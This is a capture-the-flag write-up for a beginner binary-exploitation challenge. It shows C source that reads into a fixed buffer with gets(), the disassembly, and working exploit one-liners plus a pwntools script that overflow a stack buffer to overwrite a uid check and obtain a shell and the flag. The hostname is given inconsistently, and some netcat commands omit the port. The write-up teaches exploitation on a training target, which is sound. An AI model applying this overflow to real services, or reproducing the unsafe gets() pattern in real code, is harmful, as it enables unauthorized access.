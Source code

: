 # Bapa Bohns Bizza
* **Event:** BepisCTF (ISSS CTF 09-06-2016)
* **Problem Type:** Binary Exploitation

## Background
[Netcat](https://en.wikipedia.org/wiki/Netcat) is an invaluable tool for testing networking and connecting to servers.

[Objdump](https://linux.die.net/man/1/objdump) Allows you to dump compiled code into readable assembly

[Pwntools](https://github.com/arthaud/python3-pwntools) is very useful when exploiting more complicated services.

[GDB](http://man7.org/linux/man-pages/man1/gdb.1.html) allows you to easily debug programs and see what is happening inside them at runtime.

## Steps
### Connect to the server with netcat
```
$ nc ctf.iss.io 9001
This is the Bapa Bohns raw socket delivery service.
Only privileged users can order over TCP.
Enter your name:
huck
Warning! huck is an unprivileged user
```
This just gives us an idea of what the program does.

### Look at source :)
The source is provided for us!
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int do_auth(char * pass);
void login();
void get_flag();

int main() {
  printf("This is the Bapa Bohns raw socket delivery service.\n");
  printf("Only privileged users can order over TCP.\n");
  login();
  return 1;
}

void login() {
  int x = getuid(); // Get user id process caller

  char name[20];
  printf("Enter your name:\n");
  gets(name);

  if(x == 0) { // Check if we were called by root (user id = 0)
    printf("Access granted to %s", name);
    printf("What kind of bizza do you want.\n");
    get_flag();
  }
  else {
    printf("Warning! %s is an unprivileged user\n", name);
  }
}

void get_flag() {
  char*  args[2] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}
```
Basically we want to find some way to call `get_flag`. If we could get x=0 then we'd get the flag.
The "Enter your name" part of this code seems slightly out of place. If we read the man page for gets() it says:
```
Never use gets().  Because it is impossible to tell without knowing the data in advance  how  many  characters
       gets()  will  read, and because gets() will continue to store characters past the end of the buffer, it is ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.
```

If we google buffer overrun it says
```
In information security and programming, a buffer overflow, or buffer overrun,
is an anomaly where a program, while writing data to a buffer, overruns the
buffer's boundary and overwrites adjacent memory locations.
```

Cool! So maybe we can overwrite `x` by writing a long string into `name`.

### Look at assembly
```
objdump -M intel --disassemble=login pwnable
000000000040066f <login>:
  40066f:       55                      push   rbp
  400670:       48 89 e5                mov    rbp,rsp
  400673:       48 83 ec 20             sub    rsp,0x20
  400677:       e8 74 fe ff ff          call   4004f0 <getuid@plt>
  40067c:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax            @x = getuid()
  40067f:       bf 0a 08 40 00          mov    edi,0x40080a
  400684:       e8 57 fe ff ff          call   4004e0 <puts@plt>
  400689:       48 8d 45 e0             lea    rax,[rbp-0x20]                     @load name
  40068d:       48 89 c7                mov    rdi,rax
  400690:       b8 00 00 00 00          mov    eax,0x0
  400695:       e8 96 fe ff ff          call   400530 <gets@plt>                  @gets(name)
  40069a:       83 7d fc 00             cmp    DWORD PTR [rbp-0x4],0x0
  40069e:       75 2c                   jne    4006cc <login+0x5d>
  4006a0:       48 8d 45 e0             lea    rax,[rbp-0x20]
  4006a4:       48 89 c6                mov    rsi,rax
  4006a7:       bf 1b 08 40 00          mov    edi,0x40081b
  4006ac:       b8 00 00 00 00          mov    eax,0x0
  4006b1:       e8 4a fe ff ff          call   400500 <printf@plt>
  4006b6:       bf 30 08 40 00          mov    edi,0x400830
  4006bb:       e8 20 fe ff ff          call   4004e0 <puts@plt>
  4006c0:       b8 00 00 00 00          mov    eax,0x0
  4006c5:       e8 1b 00 00 00          call   4006e5 <get_flag>
  4006ca:       eb 16                   jmp    4006e2 <login+0x73>
  4006cc:       48 8d 45 e0             lea    rax,[rbp-0x20]
  4006d0:       48 89 c6                mov    rsi,rax
  4006d3:       bf 50 08 40 00          mov    edi,0x400850
  4006d8:       b8 00 00 00 00          mov    eax,0x0
  4006dd:       e8 1e fe ff ff          call   400500 <printf@plt>
  4006e2:       90                      nop
  4006e3:       c9                      leave
  4006e4:       c3                      ret
```
From the disassembly we can see both `x` and `name` are being stored on the stack.
`x` is at `rbp-0x4` and the first byte in `name` is at `rbp-0x20`
Thus if we write 0x1c bytes, the next 4 byte written will overwrite `x`.

### Write an exploit
We need to write 0x1c bytes then overwrite x with 0.
Since x is a 4 byte int we need to write 4 null characters.
```
$ python3 -c "print('a'*0x1c + '\x00'*4)" | nc ctf.isss.io
This is the Bapa Bohns raw socket delivery service.
Only privileged users can order over TCP.
Enter your name:
Access granted to aaaaaaaaaaaaaaaaaaaaaaaaaaaaWhat kind of bizza do you want.
```

In order to get the flag we need to interact with the socket after the python script finishes. We can do this with `cat -`.
```
$ (python3 -c "print('a'*0x1c + '\x00'*4)"; cat -) | nc ctf.isss.io
This is the Bapa Bohns raw socket delivery service.
Only privileged users can order over TCP.
Enter your name:
Access granted to aaaaaaaaaaaaaaaaaaaaaaaaaaaaWhat kind of bizza do you want.
ls
flag.txt
cat flag.txt
utflag{b1zza_tim3}
```

### Writing an exploit with pwntools
Pwntools is great for harder binary exploitation challenges.

```
from pwn import *

r = remote("ctf.isss.io", 9001)
r.readline()
r.sendline(b'a'*28 + p32(0))
r.interactive()
```
